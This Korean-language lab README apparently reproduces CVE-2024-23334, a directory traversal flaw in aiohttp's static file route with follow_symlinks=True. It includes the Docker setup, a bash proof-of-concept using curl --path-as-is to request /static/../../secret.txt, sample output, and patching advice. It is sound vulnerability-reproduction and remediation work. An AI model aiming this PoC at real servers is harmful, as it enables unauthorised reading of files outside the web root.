

# CVE-2024-23334 aiohttp Directory Traversal

## 1. 취약점 요약

CVE-2024-23334는 Python 웹 프레임워크인 `aiohttp`의 정적 파일 처리 과정에서 발생하는 디렉터리 트래버설 취약점이다.

취약한 버전에서 정적 파일 라우트에 `follow_symlinks=True` 옵션을 사용하면, 공격자가 `../`가 포함된 경로를 요청하여 정적 파일 디렉터리 외부의 파일을 읽을 수 있다.

- 취약 버전: aiohttp 1.0.5 이상, 3.9.2 미만
- 실습 버전: aiohttp 3.9.1
- 패치 버전: aiohttp 3.9.2 이상
- 취약점 유형: Directory Traversal
- Risk Score: 8.2 / 10.0 (High)

---

## 2. 환경 구성

### 구성 요소

- Docker
- Docker Compose
- Python 3.11
- aiohttp 3.9.1
- curl

### 환경 실행

```bash
docker compose up -d --build
```

실행 상태 확인:

```bash
docker compose ps
```


취약 버전 확인:

```bash
docker compose exec aiohttp \
  python -c "import aiohttp; print(aiohttp.__version__)"
```

예상 결과:

```text
3.9.1
```



---

## 3. 취약 조건

다음 조건을 만족하면 취약점이 발생할 수 있다.

1. aiohttp 1.0.5 이상, 3.9.2 미만 버전을 사용한다.
2. aiohttp의 정적 파일 제공 기능을 사용한다.
3. 정적 파일 라우트에 `follow_symlinks=True`를 설정한다.
4. 공격자가 정적 파일 URL에 접근할 수 있다.

취약한 설정은 다음과 같다.

```python
app.router.add_static(
    "/static/",
    path=STATIC_DIR,
    follow_symlinks=True,
)
```

`follow_symlinks=True`가 설정된 상태에서 aiohttp가 요청 경로를 충분히 검증하지 않아 정적 파일 디렉터리 외부로 이동할 수 있다.

---

## 4. 재현 절차

### 4.1 정상 파일 요청

정적 파일 디렉터리 내부의 파일을 요청한다.

```bash
curl http://127.0.0.1:8080/static/hello.txt
```

예상 결과:

```text
This file is inside the allowed static directory.
```


### 4.2 디렉터리 트래버설 재현

다음 PoC 스크립트를 실행한다.

```bash
./poc.sh
```

스크립트는 다음 경로를 서버에 요청한다.

```text
/static/../../secret.txt
```

`../`를 이용하여 정적 파일 디렉터리인 `/app/static`을 벗어난 뒤, 컨테이너 루트 디렉터리의 `/secret.txt`를 읽는다.

---

## 5. PoC 코드

```bash
#!/usr/bin/env bash

set -euo pipefail

TARGET_URL="${1:-http://127.0.0.1:8080}"
EXPECTED_TEXT="CVE-2024-23334-SUCCESS"
TRAVERSAL_PATH="/static/../../secret.txt"

echo "[*] Target: ${TARGET_URL}"
echo "[*] Request path: ${TRAVERSAL_PATH}"
echo "[*] Sending directory traversal request..."

HTTP_BODY="$(
  curl \
    --silent \
    --show-error \
    --fail \
    --path-as-is \
    "${TARGET_URL}${TRAVERSAL_PATH}"
)"

echo
echo "[*] Server response:"
printf '%s\n' "${HTTP_BODY}"
echo

if printf '%s\n' "${HTTP_BODY}" |
  grep --fixed-strings --quiet "${EXPECTED_TEXT}"; then
    echo "[+] CVE-2024-23334 reproduction succeeded."
    echo "[+] A file outside the static directory was read."
    exit 0
fi

echo "[-] CVE-2024-23334 reproduction failed."
exit 1
```

`curl`의 `--path-as-is` 옵션은 `../`가 포함된 경로를 자동으로 정리하지 않고 서버에 그대로 전송하기 위해 사용한다.

---

## 6. 실행 결과

PoC 실행 결과, 정적 파일 디렉터리 외부에 위치한 `/secret.txt`의 내용이 출력되었다.

```text
[*] Target: http://127.0.0.1:8080
[*] Request path: /static/../../secret.txt
[*] Sending directory traversal request...

[*] Server response:
CVE-2024-23334-SUCCESS

[+] CVE-2024-23334 reproduction succeeded.
[+] A file outside the static directory was read.
```


이를 통해 공격자가 인증 없이 정적 파일 디렉터리 외부의 파일을 읽을 수 있음을 확인하였다.

---

## 7. 대응 방안

### aiohttp 업데이트

취약점이 수정된 aiohttp 3.9.2 이상의 버전으로 업데이트한다.

```bash
pip install --upgrade "aiohttp>=3.9.2"
```

### `follow_symlinks=True` 제거

취약한 설정:

```python
app.router.add_static(
    "/static/",
    path=STATIC_DIR,
    follow_symlinks=True,
)
```

안전한 설정:

```python
app.router.add_static(
    "/static/",
    path=STATIC_DIR,
    follow_symlinks=False,
)
```

`follow_symlinks`의 기본값은 `False`이므로 다음과 같이 옵션을 제거할 수도 있다.

```python
app.router.add_static(
    "/static/",
    path=STATIC_DIR,
)
```

또한 피해 범위를 줄이기 위해 웹 애플리케이션을 root가 아닌 최소 권한의 일반 사용자로 실행해야 한다.

---

## 환경 종료

```bash
docker compose down -v --remove-orphans
```
